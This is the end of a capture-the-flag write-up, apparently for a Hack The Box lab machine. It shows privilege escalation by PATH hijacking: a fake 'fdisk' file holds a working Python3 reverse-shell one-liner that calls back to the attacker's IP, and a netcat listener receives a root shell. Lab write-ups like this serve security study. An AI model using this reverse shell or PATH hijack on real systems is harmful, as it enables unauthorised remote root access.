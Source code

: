 Checking the $PATH

```bash
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Lets create a fdisk binary in /dev/shm which contains a python3 reverse shell. Lets modify the path as shown below.

```ruby
theseus@ubuntu:/dev/shm$ nano fdisk
theseus@ubuntu:/dev/shm$ cat fdisk
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.119",8001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
theseus@ubuntu:/dev/shm$ chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ which fdisk
/dev/shm/fdisk
```

Lets open a netcat listener on our system on port 8001 and execute /bin/sysinfo to get a Reverse Shell

```ruby
strawhack@linux:~/Desktop$ sudo nc -nlvp 8001
Listening on 0.0.0.0 8001
Connection received on 10.10.10.185 35984
# /bin/bash -i
root@ubuntu:/dev/shm# cd /root
cd /root
root@ubuntu:/root# ls
ls
info.c
root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
eb8c0d0b143fd1c0----------------
```



## Links 

| Description                | Web URI                                                      |
| -------------------------- | ------------------------------------------------------------ |
| ExifTool To Embed PHP Code | https://medium.com/@noobintheshell/htb-networked-writeup-aa71bff6baa |
| Python3 Reverse Shell      | http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet |
| Linpeas                    | https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite |

